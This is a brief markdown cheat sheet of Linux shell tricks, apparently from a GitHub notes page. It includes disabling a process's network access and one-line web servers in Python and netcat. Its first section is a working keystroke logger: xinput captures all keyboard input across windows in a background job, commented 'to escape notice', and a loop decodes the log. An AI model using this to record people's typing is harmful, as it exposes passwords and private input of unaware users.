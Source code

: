 ## Quick keystroke logger

```bash
xinput --list # then get id of keyboard
xinput --test $kybd_id > keystrokes.log & # send job to bg to escape notice
```
This works for keystrokes on any window, not just the terminal in question.

To decode the logfile:

```bash
while read -r line; do
	grep -oP '[a-zA-Z\s]+' <<< "$line" | tr '\n' '\0'
	n=$(grep -oP '\d+' <<< "$line")
	xmodmap -pke | grep -P "keycode\s+${n} =" | sed 's/keycode\s\+[0-9]\+ = //' || echo $n 
done < keystrokes.log
```

## Disable network access for a process

`unshare -n <program> ...`

## Quick webserver

### Python

```bash
python2 -m SimpleHTTPServer # Python 2
python3 -m http.server      # Python 3
```
Starts a file-serving webserver in the current directory bound to `0.0.0.0:8000`

### Netcat
```bash
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat some.file; } | nc -l -p 8080
{ echo -ne "HTTP/1.0 200 OK\r\nContent-Length: $(wc -c <some.file)\r\n\r\n"; cat some.file; } | nc -l -p 8080
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTMyMDQxNjk2OCwtNjMzMDM3NjAzXX0=
-->